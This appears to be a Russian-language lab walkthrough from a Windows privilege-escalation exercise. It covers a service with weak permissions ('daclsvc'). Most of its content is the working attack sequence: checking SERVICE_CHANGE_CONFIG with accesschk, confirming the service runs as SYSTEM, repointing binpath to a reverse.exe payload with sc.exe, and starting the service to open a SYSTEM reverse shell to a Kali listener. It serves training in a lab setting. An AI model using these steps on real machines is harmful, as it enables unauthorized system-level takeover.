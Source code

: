 # Задача 3: Проверка разрешений пользователя на сервис **daclsvc** 🔍🔑

---

## Описание
В этой задаче вам нужно использовать `accesschk.exe`, чтобы проверить разрешения учетной записи **"user"** на сервис **"daclsvc"**.

---

### Проверка разрешений:
1. Выполните следующую команду:
   `"C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc"`
![image](https://github.com/user-attachments/assets/6822fccd-9917-4be5-afad-eca891faec5a)
   Обратите внимание, что учетная запись **"user"** имеет разрешение на изменение конфигурации сервиса (SERVICE_CHANGE_CONFIG). ⚙️

---

### Запрос информации о сервисе:
2. Затем запросите информацию о сервисе и запишите, что он работает с привилегиями SYSTEM (SERVICE_START_NAME):
   `"sc.exe qc daclsvc"`
![image](https://github.com/user-attachments/assets/68afa031-803d-4cd4-9b1b-e94e43abb8da)

---

### Модификация конфигурации сервиса:
3. Измените конфигурацию сервиса и установите `BINARY_PATH_NAME` (binpath) на исполняемый файл `reverse.exe`, который вы создали ранее:
   `sc.exe config daclsvc binpath= "C:\PrivEsc\reverse.exe"`
![image](https://github.com/user-attachments/assets/553f9b0f-eb14-471a-9156-df2e19955747)

---

### Запуск обратной оболочки:
4. Настройте слушателя на Kali, и затем запустите сервис, чтобы запустить обратную оболочку с привилегиями SYSTEM:
   `"net start daclsvc"`
![image](https://github.com/user-attachments/assets/4a591407-be93-42f8-979e-ce2e57672a28)

---

### Важно! ⚠️
Эти шаги помогают получить доступ к привилегированным оболочкам с использованием уязвимости в конфигурации сервиса. Не забывайте быть внимательными при работе с привилегиями системы! 🔒
